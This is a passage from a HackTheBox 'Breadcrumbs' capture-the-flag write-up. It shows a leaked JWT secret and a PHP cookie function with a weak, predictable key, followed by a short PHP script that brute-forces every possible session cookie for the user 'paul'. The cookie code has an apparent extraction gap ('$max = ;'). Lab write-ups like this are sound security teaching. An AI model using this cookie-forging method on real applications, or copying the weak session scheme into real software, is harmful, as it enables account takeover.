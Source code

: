 We get the JWT secret

```
$secret_key = '6cb9c1a2786a483ca5e44571dcc5f3bfa298593a6376ad92185c3258acd5591e'
```

Another interesting thing in the response
```
if(in_array($user, $admins) && $_SESSION['username'] == \"paul\")
```

Seems like we need to login as the user paul


Let's check `Cookie.php`

<img alt="test" src="/assets/img/htb-breadcrumbs/cookie.png">

If we clean the response, a quick sed to remove the "\r \n and \"

```
<?php
/** * @param string $username  Username requesting session cookie * 
* @return string $session_cookie Returns the generated cookie *
* @devteam * Please DO NOT use default PHPSESSID; our security team says they are predictable. 
*CHANGE SECOND PART OF MD5 KEY EVERY WEEK **/

  function makesession($username){    
  	$max = ;    
  	$seed = rand(0, $max);    
  	$key = "s4lTy_stR1nG_".$username[$seed]."(!528./9890";    
  	$session_cookie = $username.md5($key);    
  	return $session_cookie;}

?>
```

We know that the user is "paul" which is a short username, we can generate all the possible cookies and try them until one works


```
<?php
$user="paul";
for ($seed = 0; $seed <= strlen($user) - 1; $seed++) {
	$key = "s4lTy_stR1nG_".$user[$seed]."(!528./9890";  
	$session_cookie = $user.md5($key);
	echo "[+] Cookie : ".$session_cookie."\n";
  
};
?>
```
